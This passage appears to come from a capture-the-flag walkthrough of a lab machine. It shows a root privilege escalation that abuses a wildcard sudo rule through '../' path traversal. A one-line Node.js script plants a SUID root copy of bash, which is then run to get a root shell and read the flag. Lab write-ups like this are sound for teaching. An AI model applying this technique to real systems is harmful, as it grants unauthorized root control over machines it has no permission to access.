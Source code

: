     | bae6a3d4fb30a54e7ae62bf8a867f08f | £869.14      | Shipped     |
    | 376d730f8178264df700fe32bfaa55f5 | £220.16      | Shipped     |
    +----------------------------------+--------------+-------------+



### Malicious JS Script

The issue here is that while the admin clearly wanted to only allow
angoose to run scripts from that directory, `*` will match on `../` as
well, so I can run any JS on the filesystem.

I'll write a short JavaScript file that will create a copy of `bash`,
set it to owned by root, and make it SetUID to run as root:



    require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')



Now I run that with `sudo`:



    angoose@stocker:~$ sudo node /usr/local/scripts/../../../dev/shm/0xdf.js 
    angoose@stocker:~$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1183448 Jun 12 16:56 /tmp/0xdf



`/tmp/0xdf` is there, owned by root, and has the `s` in the owner
execute field.

I'll run it with `-p` to keep privs, and get a shell as root:



    angoose@stocker:~$ /tmp/0xdf  -p
    0xdf-5.0#



And the root flag:



    0xdf-5.0# cat root.txt
    c779fc97************************







